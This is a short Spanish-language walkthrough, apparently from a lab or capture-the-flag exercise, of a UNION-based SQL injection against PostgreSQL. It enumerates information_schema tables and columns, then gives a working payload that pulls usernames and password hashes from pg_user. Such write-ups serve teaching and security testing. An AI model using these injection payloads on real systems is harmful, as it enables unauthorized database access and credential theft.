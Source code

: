 # 📚 Writeups y Reportes Formales 📚
Indentificamos la cantidad de columnas  
Identificamos cual es la que devuelve un dato y lo imprime sin errores  
Al indentificar, pondremos la inyeccion SELECT * FROM information_schema.tables, modificandola segun la cantidad de columnas y sus datos: SELECT TABLE_NAME, NULL FROM information_schema.tables  
Datos adquiridos:
pg_partitioned_table
pg_available_extension_versions
pg_shdescription
user_defined_types
udt_privileges
sql_packages
pg_event_trigger
pg_amop
schemata
routines
referential_constraints
administrable_role_authorizations
products
pg_foreign_data_wrapper
pg_prepared_statements
pg_largeobject_metadata
foreign_tables
sql_implementation_info
collation_character_set_applicability
check_constraint_routine_usage
pg_statio_user_sequences
pg_cast
pg_user_mappings
pg_statio_all_tables
pg_stat_progress_vacuum
pg_statio_sys_sequences
foreign_servers
sql_features
pg_stat_wal_receiver
pg_pltemplate
constraint_table_usage
pg_ts_parser
parameters
pg_stat_activity
pg_ts_template
element_types
pg_stat_subscription
pg_stat_all_tables
pg_locks
pg_seclabel
pg_ts_config
pg_stat_archiver
pg_stat_ssl
role_udt_grants
pg_stat_xact_user_functions
pg_am
domain_udt_usage
column_privileges
pg_policy
pg_timezone_names
domains
pg_amproc
pg_replication_origin
information_schema_catalog_name
pg_ts_dict
character_sets
pg_db_role_setting
pg_publication
pg_stat_xact_sys_tables
foreign_data_wrappers
routine_privileges
pg_views
pg_foreign_table
pg_statio_sys_indexes
pg_database
user_mappings
pg_class
pg_foreign_server
pg_type
view_column_usage
applicable_roles
pg_group
views
domain_constraints
pg_stat_user_tables
view_table_usage
pg_transform
pg_stat_sys_indexes
role_routine_grants
role_column_grants
user_mapping_options
pg_aggregate
pg_stat_database_conflicts
pg_stat_database
sql_sizing
triggers
triggered_update_columns
pg_tables
usage_privileges
foreign_table_options
pg_index
pg_prepared_xacts
pg_description
pg_auth_members
pg_statistic_ext
pg_cursors
pg_statio_all_sequences
pg_stat_replication
pg_settings
role_table_grants
pg_statio_all_indexes
pg_depend
pg_subscription
pg_subscription_rel
columns
pg_stat_xact_user_tables
pg_stat_progress_cluster
sequences
pg_stats
pg_seclabels
pg_attribute
check_constraints
pg_rules
pg_timezone_abbrevs
pg_default_acl
pg_stat_gssapi
pg_stat_sys_tables
pg_shseclabel
pg_opclass
pg_stat_bgwriter
pg_sequence
foreign_server_options
constraint_column_usage
pg_operator
pg_extension
view_routine_usage
pg_indexes
pg_replication_slots
pg_roles
enabled_roles
data_type_privileges
key_column_usage
pg_sequences
pg_rewrite
pg_statio_user_tables
pg_attrdef
sql_languages
pg_tablespace
pg_stat_all_indexes
attributes
pg_language
pg_opfamily
pg_publication_rel
pg_ts_config_map
pg_statio_sys_tables
pg_shdepend
table_constraints
pg_matviews
sql_sizing_profiles
users_zwtnep
pg_collation
collations
table_privileges
pg_stats_ext
column_domain_usage
pg_stat_user_indexes
pg_publication_tables
pg_proc
pg_statio_user_indexes
pg_available_extensions
tables
role_usage_grants
pg_init_privs
pg_range
pg_namespace
pg_trigger
column_udt_usage
pg_enum
pg_policies
pg_user
column_column_usage
pg_stat_progress_create_index
pg_constraint
pg_stat_user_functions
pg_conversion
foreign_data_wrapper_options
pg_inherits
pg_stat_xact_all_tables
column_options

Una vez enumeradas las tablas, buscamos las que parezcan tener los usuarios, en este caso: pg_user, para poder extraer los datos de una tabla, necesitamos saber los nombres de sus columnas, podemos hacerlo con este comando:' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'pg_user'--, obteniendo asi

useconfig
usesuper
usecreatedb
userepl
passwd
usesysid
valuntil
usebypassrls
usename

pensando que passwd y username las columbas que contienen los datos de los usuarios, usamos el siguiente comando para obtener los datos.
' UNION SELECT usename || ':' || passwd, NULL FROM pg_user--
